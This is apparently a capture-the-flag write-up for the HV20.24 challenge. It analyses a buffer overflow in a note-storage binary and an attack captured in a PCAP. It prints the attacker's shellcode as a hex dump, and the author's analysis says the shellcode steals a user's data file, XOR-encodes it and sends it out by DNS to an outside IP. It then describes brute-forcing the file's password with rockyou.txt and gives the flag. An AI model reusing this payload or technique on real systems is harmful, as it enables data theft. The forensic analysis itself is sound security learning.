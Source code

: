 # HV20.24 Santa's Secure Data Storage

For the final challenge, we get access to a binary (`data_storage`, 64 bit ELF file) and a PCAP file which shows some network traffic. Our goal is to analyze the provided files and find out if / how the application has been compromised. Moreover, we know that all users of the application use passwords from the infamous wordlist `rockyou.txt`.

Firstly, I started playing with the ELF file. The application can be used to store encrypted notes. Authentication is done using username and password. If the user does not exist during the authentication, it is created automatically. All files (user data and encrypted notes) are stored inside the `/data` folder. The filenames have the following pattern:

- `data/<user>_pwd.txt` - Hashed password for the user
- `data/<user>_data.txt` - Encrypted note

Moreover, we can see that there is a huge buffer overflow vulnerability in the provided application. After authentication, the user can enter a number from `0` to `3` to choose an action:

```bash
➜  24 git:(main) ✗ ./data_storage
welcome to santa's secure data storage!
please login with existing credentials or enter new username ...
username> manuelz120
creating user 'manuelz120' ...
please set your password (max-length: 19)
password> hackvent_rulez
welcome manuelz120!
[0] show data
[1] enter data
[2] delete data
[3] quit
choice> 3
good bye!
```

However, when reading the input the application takes 1000 byte from _stdin_ and passes them to a buffer with a size of just 10 byte. This vulnerability can most likely be exploited to achieve remote code execution and leak data from other users.

![Buffer overflow](./overflow.png)

Afterwards, I started taking a look at the communication from the [PCAP file](./attack.pcapng). By analyzing the TCP packets, we can see how user `evil0r` (password `lovebug1`) interacted with the application. On a first glance, there does not seem to be anything suspicious, as he does not interact with the notes and immediately quits after connecting. However, if we take a closer look at the quit command, we can see that it contains way more data than just the command (`3`):

```
00000000: 3320 4141 4141 4141 4141 4141 4141 4141  3 AAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 1041 4000 0000 0000 6874 7874 0048  AA.A@.....htxt.H
00000050: c2bf 7461 5f64 6174 612e 5748 c2bf 6461  ..ta_data.WH..da
00000060: 7461 2f73 616e 5748 c289 c3a7 4831 c3b6  ta/sanWH....H1..
00000070: 4831 c392 c2b8 0200 0000 0f05 48c2 89c3  H1..........H...
00000080: 8748 c2ba 0000 0100 0100 0000 526a 006a  .H..........Rj.j
00000090: 006a 006a 0048 c289 c3a6 48c2 ba01 0000  .j.j.H....H.....
000000a0: 0000 0000 2052 48c2 ba00 0000 1337 0100  .... RH......7..
000000b0: 0052 c2ba 2000 0000 c2b8 0000 0000 0f05  .R.. ...........
000000c0: 4831 c389 c281 340e c3af c2be c2ad c39e  H1....4.........
000000d0: 48c2 83c3 8104 48c2 83c3 b920 75c3 afc2  H.....H.... u...
000000e0: bf02 0000 00c2 be02 0000 0048 31c3 92c2  ...........H1...
000000f0: b829 0000 000f 0548 c289 c387 48c2 89c3  .).....H....H...
00000100: a648 c283 c386 03c2 ba32 0000 0041 c2ba  .H.......2...A..
00000110: 0000 0000 6a00 49c2 b802 0000 35c3 80c2  ....j.I.....5...
00000120: a800 2a41 5049 c289 c3a0 41c2 b910 0000  ..*API....A.....
00000130: 00c2 b82c 0000 000f 05c2 bf00 0000 00c2  ...,............
00000140: b83c 0000 000f 050a                      .<......
```

If we take a closer look at the part which follows the sequence of `A`s, we can see that it contains some shell code, so this whole request is exploiting the buffer overflow vulnerability we discussed before. After disassembling the shellcode, we can see that the exploit reads the data file of the user santa (`data/santa_data.txt`), encrypts it by xoring the content with `0xdeadbeef` and sends it to `192.168.0.42` (`evil0r`s IP) via a handcrafted DNS request. Thankfully, we also have the data from this DNS request, as it's still shown in the PCAP:

Bytes from DNS request: `0xe5, 0xaf, 0xe5, 0x9d, 0x31, 0xac, 0xa3, 0xca, 0x21, 0x1e, 0xc3, 0x79, 0xa6, 0x73, 0x23, 0x5e, 0xda, 0xb6, 0xa0, 0x8d, 0x2e, 0xd3, 0xb7, 0xb6, 0x6b, 0x55, 0x85, 0x7e, 0xc8, 0x34, 0x22, 0x7a`

Now we can undo the XOR encryption by xoring these bytes with `0xdeadbeef` (keep in mind the reversed byte order) and obtain the encrypted data file for the user santa:

```bash
➜  24 git:(main) ✗ xxd data/santa_data.txt
00000000: 0a11 4843 de12 0e14 cea0 6ea7 49cd 8e80  ..HC......n.I...
00000010: 3508 0d53 c16d 1a68 84eb 28a0 278a 8fa4  5..S.m.h..(.'...
```

Now, we can simply store this data on our local machine and try to decrypt it using all passwords from `rockyou.txt`. I wrote a small [wrapper-script](./brute-force-decrypt.py) using [pwntools](https://github.com/arthaud/python3-pwntools) to automate this task. After ~ 1 hour it finally managed to decrypt the leaked file (password was: `xmasrocks`).

**Flag:** HV20{0h_n0es_fl4g_g0t_l34k3d!1}
